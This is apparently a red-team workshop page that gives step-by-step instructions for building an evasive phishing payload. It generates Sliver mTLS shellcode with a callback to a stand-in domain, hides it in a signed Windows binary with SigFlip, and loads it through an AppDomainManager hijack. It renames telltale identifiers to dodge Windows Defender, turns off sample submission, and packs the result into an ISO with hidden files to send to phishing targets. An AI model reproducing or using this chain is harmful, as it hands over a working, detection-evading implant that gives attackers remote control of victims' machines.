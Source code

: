 +++
title = "Better Payload Generation"
weight = 110
+++

### Better implants (frostbyte bypass windows defender)

Instead of generating a executable. We can generate shellcode. We can then use something like [https://github.com/pwn1sher/frostbyte](https://github.com/pwn1sher/frostbyte) to load that shellcode into memory and execute it.

### Get frostbyte

Lets get download the [frostbyte zip](https://github.com/pwn1sher/frostbyte/archive/refs/heads/main.zip) from Github.

### Generate shellcode

In a sliver shell we need to run the following to generate some shellcode to be used later. We'll use `test.example` as the callback domain, we will add an entry to the Windows hosts file.

```bash
generate --mtls test.example -f shellcode --save implants/shellcodex64.bin
```

Copy the shell code to the share.

```bash
mkdir -p /share/operator-$(ip a | grep 172 | awk '{print $2}' | cut -d/ -f1 | cut -d. -f4)
cp implants/shellcodex64.bin /share/operator-$(ip a | grep 172 | awk '{print $2}' | cut -d/ -f1 | cut -d. -f4)
```

It is time to switch to windows.

Copy the shellcode to your `Desktop\frostbyte-main` folder on the windows machine.



### Setup Files for New Payload

```bat
cd Desktop\frostbyte-main
mkdir AuthHelper
mkdir AuthHelper\dist\
copy Update.exe.config AuthHelper\dist\AuthHelper.exe.config
copy test.cs AuthHelper\AuthHelper.cs
cd AuthHelper
```

### Run SigFlip

Now that we have things setup we can run `SigFlip` to encode our shellcode into the `CasPol.exe` and save it as `AuthHelper.exe` in our newly created `AuthHelper` folder.

```bat
..\SigFlip.exe -i "..\CasPol.exe" "..\shellcodex64.bin" ".\dist\AuthHelper.exe" "PYLD4ME"
```

Pay attention to the output. I had to make note of the padding value and add it to two lines in the `.cs` file

### Update `dist\AuthHelper.exe.config`

- We need to replace `test` with our executable name our executable name without the extension (`AuthHelper`). 
- Next we need to update the value of `appDomainManagerType` to be something else `NewAuthHelper`.
- Finally lets make `privatePath` a relative path `.`

```xml
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <probing privatePath="."/>
      </assemblyBinding> 
	  <appDomainManagerAssembly value="AuthHelper, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null" />  
	  <appDomainManagerType value="NewAuthHelper" />  
   </runtime>
</configuration>
```

### Update AuthHelper\AuthHelper.cs

Now we need to update the `AuthHelper.cs` file.

- remove top three lines prepended with `#`
- replace `Z45UDG` with `NewAuthHelper`
- comment out logging on lines `154` and `161`
- replace `S3cretK3y` with `PYLD4ME`
- change `Z:\\zloader\\update.exe` to `AuthHelper.exe`
- replace all instances of `shellcode` with `certData`
- replace all instances of `ClassExample` with `AuthHelper`
- replace all instances of `Executing Beacon!` with `Begin Execution!`
- replace all instances of `Decrypt` with `CheckAuth`
- replace all instances of `ExecShellcode` with `Authorize`
- Update `_peBlob.Length+2` to be `_peBlob.Length+10`


```
C:\windows\Microsoft.NET\Framework\v3.5\csc.exe /target:library /out:dist\AuthHelper.dll AuthHelper.cs
```

### Prepare for Testing

We need to modify `C:\Windows\System32\drivers\etc\hosts` and add an entry for `test.example`.

- Run notepad as administrator
![Run Notepad as Administrator](/static/how-to-phishing/notepad-runas.png)

- Ensure you have show all files selected 
![Notepad Show All Files](/static/how-to-phishing/notepad-open-allfiles.png)

- Browse to `C:\Windows\System32\drivers\etc\`
- Add en entry for `test.example` to go to your Linux box running `sliver`.
![Windows Hosts File Entry](/static/how-to-phishing/windows-hosts-entry.png)

We should also set defender to not send off samples.

- Open Windows Defender
![Defender Tray Entry](/static/how-to-phishing/defender-tray.png)

- Select **Virus & threat protection** from the left side navigation.
- Click **Manage settings**
![Defender Settings](/static/how-to-phishing/defender-settings.png)

- Turn off sample submission
![Defender Sample Submission](/static/how-to-phishing/defender-sample-submission.png)

### Testing

Now we should be able to open out `dist` folder and run the `AuthHelper.exe`.
![Better Payload Testing](/static/how-to-phishing/better-payload-testing.png)

We should be see a new session popup in Sliver
![Better Payload Testing Sliver](/static/how-to-phishing/better-payload-testing-sliver.png)

Now would be a good time to fine tune our code, remove debugging messages, or add a nice special message that says "Good job! Now your more secure!!". 

### PackMyPayload

Now that we have a nice payload, lets pack it up so we can send it to our phishing targets. We'll use [https://github.com/mgeeky/PackMyPayload](https://github.com/mgeeky/PackMyPayload)


```bash
sudo apt install python3-pip
cd ~/opt
git clone https://github.com/mgeeky/PackMyPayload.git
cd PackMyPayload
python3 -m pip install -r requirements.txt
```

Copy dist folder to your linux VM. I put it in `~/Desktop/op/payloads/AuthHelper/`.

```bash
cd ~/Desktop/op/payloads/AuthHelper
python3 ~/opt/PackMyPayload/PackMyPayload.py --hide AuthHelper.dll,AuthHelper.exe.config dist AuthHelper.iso -v
```

Now we should have a nice `.iso` file we can send users.
![PackMyPayload](/static/how-to-phishing/packmypayload.png)

### Testing... Again

Now we need to test again to make sure everything is working as designed. Copy the `AuthHelper.iso` to the windows machine. We'd hate for users to receive this message instead of us getting a new session:

![Error](/static/how-to-phishing/iso-mount-error.png)
